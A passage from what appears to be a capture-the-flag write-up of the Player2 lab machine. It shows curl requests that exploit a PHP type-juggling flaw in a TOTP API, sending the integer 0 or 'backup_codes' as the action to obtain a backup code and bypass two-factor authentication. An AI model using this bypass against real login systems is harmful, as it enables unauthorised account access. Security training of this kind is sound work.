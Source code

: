     
    root@kali# curl -s -X POST http://product.player2.htb/api/totp
    {"error":"Invalid Session"}
    

I grabbed my cookie from Firefox where I had just logged in and added that:

    
    
    root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=o91scokidvotca1i0tolpdmjp9"
    {"error":"Invalid action"}
    

Note, if I try to send a OTP in Firefox, the cookie no longer works to get
access to the API. The server must think this session is in the state after
successful creds but then set it back to invalid on any failed OTP.

I tried adding `/action/` to the url, but that caused a 500 error. So I tried
sending `action` as a parameter name. With any other parameter, it returns
`Invalid Action`:

    
    
    root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=49fej68t3k9vlr2ga16prnbsac" -d '{"aaaa":"code"}'
    {"error":"Invalid action"}
    

But with `action`, it returns `Missing parameters`:

    
    
    root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=49fej68t3k9vlr2ga16prnbsac" -d '{"action":"code"}'
    {"error":"Missing parameters"}
    

It’s not totally clear to me how the box author expected us to make this next
leap. I got lucky in guessing around, I tried `0` (as an integer, not a
string) and got a match:

    
    
    root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=o91scokidvotca1i0tolpdmjp9" -H 'Content-Type:application/json' -d '{"action":0}'
    {"user":"0xdf","code":"91231238385454"}
    

This is a PHP type juggling vulnerability, and I’ll look at it in Beyond Root.

It also works if you happen to guess the `action`, `backup_codes` (but given
that `backup_codes` isn’t in an common wordlists I know of, that’d be a pretty
un-fun guess to ask us to make):

    
    
    root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=49fej68t3k9vlr2ga16prnbsac" -d '{"action":"backup_codes"}'
    {"user":"0xdf","code":"91231238385454"}
    

Either way, I have a backup code to bypass 2FA (it seems static).

Entering that into the form logs in to the Protobs site.
